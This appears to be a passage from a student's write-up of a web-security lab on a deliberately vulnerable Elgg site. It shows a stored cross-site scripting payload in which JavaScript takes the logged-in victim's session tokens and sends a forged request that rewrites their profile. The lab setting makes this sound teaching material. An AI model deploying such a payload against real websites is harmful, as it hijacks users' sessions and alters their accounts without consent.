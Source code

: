     ![1588012661752](assets/1588012661752.png)


### 4.7 Modifying the Victim’s Profile [5 Marks]

* The modified code

  ```html
  <script type="text/javascript">
  window.onload = function () { 
      var userName=elgg.session.user.name;
      var guid="&guid="+elgg.session.user.guid;
  	var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  	var token="&__elgg_token="+elgg.security.token.__elgg_token;
  	//Construct the HTTP request to add Samy as a friend.
      var content="&description=SAMY+is+MY+HERO&accesslevel%5Bdescription%5d=2"; 
      content = token + ts + userName + content +guid
      //FILL IN
  	var samyGuid=47; //FILL IN
      var sendurl = "http://www.xsslabelgg.com/action/profile/edit"
  	if(elgg.session.user.guid!=samyGuid)
      {
          //Create and send Ajax request to modify profile
          var Ajax=null;
          Ajax=new XMLHttpRequest();
          Ajax.open("POST",sendurl,true);
          Ajax.setRequestHeader("Host","www.xsslabelgg.com");
          Ajax.setRequestHeader("Content-Type",
          "application/x-www-form-urlencoded");
          alert(content);
          Ajax.send(content);
      }
  }
  </script>
  ```